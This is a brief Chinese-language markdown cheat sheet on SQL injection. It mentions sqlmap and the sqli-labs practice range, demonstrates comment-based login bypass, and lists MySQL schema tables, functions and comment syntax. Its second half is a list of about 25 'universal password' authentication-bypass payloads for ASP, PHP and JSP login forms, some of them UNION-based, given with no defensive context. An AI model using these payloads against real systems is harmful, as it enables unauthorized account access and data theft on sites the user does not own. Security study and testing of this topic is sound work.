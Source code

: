 # sql注入工具

## sqlmap

python 编写 github

## Sqlli-lab

sql注入靶场 php项目 github 需要phpstydu 程序

# 漏洞利用

## -- 注释掉后续条件

```sql
-- 如：
select * from user where username = 'admin' and password = 'admin'
-- 输入《' or 1==1 -- 》 构造
select * from user where username = '' or 1==1 -- 'and password = 'admin'
```

# mysql

## 表

1. schemata
2. tables
3. columns

## 常用函数

1. user()：查看当前Mysq登录用户名
2. database()：查看当前使用Mysq数据库名
3. version()：查看当前Mysq版本
4. limit m,n ：第m(0开始)条数据开始，查询n条
5. 注释：
   1. #：
   2. -- ：浏览器使用 --%20
   3. /**/：
   4. 内联注释：/*! sql */ 

## 漏洞函数



# 万能密码

```
asp aspx万能密码
1："or "a"="a
2： ')or('a'='a
3：or 1=1--
4：'or 1=1--
5：a'or' 1=1--
6："or 1=1--
7：'or'a'='a
8："or"="a'='a
9：'or''='
10：'or'='or'
11: 1 or '1'='1'=1
12: 1 or '1'='1' or 1=1
13: 'OR 1=1%00
14: "or 1=1%00
15: 'xor
16: 新型万能登陆密码
	用户名 ' UNION Select 1,1,1 FROM admin Where ''=' （替换表名admin） 密码 1
	Username=-1%cf' union select 1,1,1 as password,1,1,1 %23 Password=1
17: ..admin' or 'a'='a 密码随便


PHP万能密码
'or'='or'
'or 1=1/*  字符型 GPC是否开都可以使用
User: something
Pass: ' OR '1'='1


jsp 万能密码
1'or'1'='1

admin' OR 1=1/*
用户名：admin    系统存在这个用户的时候 才用得上
密码：1'or'1'='1
```

